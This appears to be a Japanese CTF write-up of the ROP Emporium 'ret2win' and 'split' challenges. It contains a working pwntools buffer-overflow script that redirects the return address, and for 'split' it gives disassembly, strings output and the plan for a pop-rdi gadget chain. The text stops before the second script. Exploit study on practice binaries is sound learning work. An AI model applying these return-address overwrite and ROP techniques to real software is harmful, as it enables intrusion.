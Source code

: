 シンボル一覧を眺めていると`ret2win`という関数が`flag.txt`の中身を出力してくれる。なのでリターンアドレスを上書きしてこの関数のアドレスに向けてあげればいい。

```
#!/usr/bin/env python3
from pwn import *

FILE = './ret2win'

def exploit():
    # setup
    context.update(arch='amd64', os='linux')
    elf = ELF(FILE)
    conn = process(FILE)

    # making a payload
    payload  = b''
    payload += b'A' * 0x28
    payload += p64(elf.symbols['ret2win'])

    # exploit
    conn.recvuntil(b'>')
    conn.sendline(payload)
    conn.interactive()
    return

if __name__ == '__main__':
    exploit()
```

## Challenge 2 split

[問題へのリンク](https://ropemporium.com/challenge/split.html)

`pwnme`関数にBuffer Overflowの脆弱性があるが、以前のように`flag.txt`の内容を出力してくれる処理がない。`usefulFunction`という関数を見ると中で`system`を呼んでくれているが、第一引数となる`rdi`レジスタの中身は`/bin/ls`なのでここままではファイルの中身を読み出せない。

バイナリを漁ってみると`/bin/cat flag.txt`が書かれたアドレスが見つかるので、`rdi`レジスタの中身をこれに書き換えれば読めるようになる。そのためアセンブリの`pop rdi; ret;`が必要になるのでRopperでガジェットを探す。

```
[0x00400742]> pdf
┌ 17: sym.usefulFunction ();
│           0x00400742      55             push rbp
│           0x00400743      4889e5         mov rbp, rsp
│           0x00400746      bf4a084000     mov edi, str._bin_ls        ; 0x40084a ; "/bin/ls" ; const char *string
│           0x0040074b      e810feffff     call sym.imp.system         ; int system(const char *string)
│           0x00400750      90             nop
│           0x00400751      5d             pop rbp
└           0x00400752      c3             ret
```

```
$rabin2 -z ./split
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```
